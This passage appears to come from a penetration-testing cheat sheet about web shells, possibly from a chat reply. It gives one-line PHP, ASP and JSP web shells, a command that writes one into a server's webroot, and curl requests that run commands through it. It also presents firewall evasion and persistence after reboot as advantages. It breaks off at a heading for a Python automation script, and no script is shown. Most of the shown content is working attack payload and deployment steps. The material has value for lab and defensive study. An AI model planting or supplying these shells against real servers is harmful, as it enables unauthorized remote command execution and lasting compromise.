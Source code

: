 ```</pre>
A **Web Shell** allows you to execute commands on the target server through a web interface, typically via GET or POST requests. This is useful when exploiting file upload vulnerabilities or injecting into a web directory.

**PHP Web Shell (Linux)**:

<pre>```php
<?php system($_GET['cmd']); ?>
```</pre>

**ASP Web Shell (Windows)**:

<pre>```
<% eval request("cmd") %>
```</pre>

**JSP Web Shell**:

<pre>```
<%= Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```</pre>

**Uploading a Web Shell:**

1. Exploit file upload functionality or remote code execution.
    
2. Place the web shell in the webroot directory (e.g., `/var/www/html/`).
    
    <pre>```bash
    echo '<?php system($_GET["cmd"]); ?>' > /var/www/html/shell.php
    ```</pre>
    

**Accessing the Web Shell:** You can access it using a browser or with `curl`:

- Browser:
    
    <pre>
    ```<http://10.10.10.10/shell.php?cmd=id>```</pre>
    
- `curl`:
    
    <pre>```bash
    curl <http://10.10.10.10/shell.php?cmd=id>
    
    ```</pre>
    

---

In scenarios where firewalls block traditional reverse or bind shells. By leveraging the existing web traffic and ports (typically `80` or `443`), web shells can bypass restrictions, and persistence is a bonus since they remain accessible after system reboots.

However, as you mentioned, one downside is the lack of interactivity. Since each command must be requested via a new URL (usually through GET or POST requests), it can be slow and tedious. To mitigate this, automation scripts can be used to send commands more efficiently and simulate an interactive shell experience. Here's an example of a simple Python script that can automate this process and provide semi-interactive access to a web shell.

---

### **Automating Web Shell Commands with Python**
```